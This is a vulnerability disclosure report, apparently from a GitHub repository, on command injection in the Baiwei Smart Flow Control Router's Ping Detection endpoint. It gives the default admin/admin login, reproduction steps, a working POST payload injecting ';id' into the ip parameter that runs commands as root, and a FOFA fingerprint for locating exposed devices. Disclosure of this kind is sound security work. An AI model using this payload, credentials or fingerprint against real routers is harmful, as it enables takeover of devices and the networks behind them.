






# CVE Report: Command Injection in Baiwei Smart Flow Control Router

**Vendor / Project Name:**  
Baiwei Technology Co., Ltd. – Smart Flow Control Router

**Product Type:**  
Smart Network Router / Flow Control Gateway

**Affected Version(s):**  
All firmware versions where the admin interface can be accessed (default or custom credentials).  
> _Note: As long as an attacker can log in (e.g. via **admin/admin**), they can exploit this command-injection vulnerability on **any** firmware version._

---

## ⚠️ Impact

This vulnerability requires **authenticated access** (e.g., via default credentials `admin/admin`). Once logged in, the attacker can inject arbitrary system-level commands into the device, leading to full device compromise.

Since the exploit can be triggered by an authenticated user via the device's **Ping Detection feature**, the attack surface is any device with **administrative access** to the router, regardless of firmware version.

---

## 💥 Vulnerability Type

- **Type:** Command Injection (Remote Command Execution)  
- **CWE:** CWE-77: Improper Neutralization of Special Elements used in a Command ('Command Injection')

---

## 📝 Vulnerability Description

A command injection vulnerability exists in the Smart Flow Control Router developed by Baiwei Technology Co., Ltd. The flaw resides in the "Ping Detection" feature under the device maintenance interface. The IP address parameter passed to the `/goform/readPing` endpoint is not properly sanitized, allowing injection of arbitrary system commands.

An attacker logging in using the default credentials (`admin/admin`) can navigate to the Ping Detection interface and inject OS commands by tampering with the HTTP request.

---

## 🔧 Steps to Reproduce

1. Access the device's admin interface via a browser:
   ```
   http://[DEVICE-IP]:<PORT>
   ```
   *Common ports observed include `9090`, `2024`, `8081`, `2011`, etc.*

2. Login using default credentials: `admin / admin`

3. Go to:
   ```
   Device Maintenance > Ping Detection > Select Network Interface
   ```

4. Start packet capture (e.g., using Burp Suite), click "Start", and intercept the POST request.

5. Modify the `ip` parameter to inject a command.

---

## 📋 Proof of Concept (PoC)

```http
POST /goform/readPing HTTP/1.1
Host: [router-ip]:<PORT>
Content-Type: application/x-www-form-urlencoded

eth=127.0.0.1&ip=127.0.0.1;id&count=1
```

This triggers execution of the `id` command on the underlying OS, demonstrating successful exploitation.

---

## 📸 Proof of Concept Screenshots

1. **Successful Login**   admin:admin
   
   
   
   
   
2. **Intercepted Request with Injected Payload**  
   

2. 
   
3. **Command Output Showing `uid=0(root)`**  
   

## ⚠️ Impact

An authenticated attacker can execute arbitrary system-level commands on the device, potentially leading to:

- Full device compromise
- Unauthorized access to internal networks
- Persistence mechanisms or lateral movement

---

## 🌐 Public Exposure Examples

Devices running the affected firmware were observed exposed to the Internet, including:







These endpoints confirm the vulnerability exists across multiple live deployments, with web interfaces exposed on non-standard ports.

---

## 🏷️ Reference

The affected device can be identified using the following FOFA/Web fingerprint:

app="BYTEVALUE-智能流控路由器"


---

## 🙋‍♂️ Credits

Discovered and reported by **KAEL**
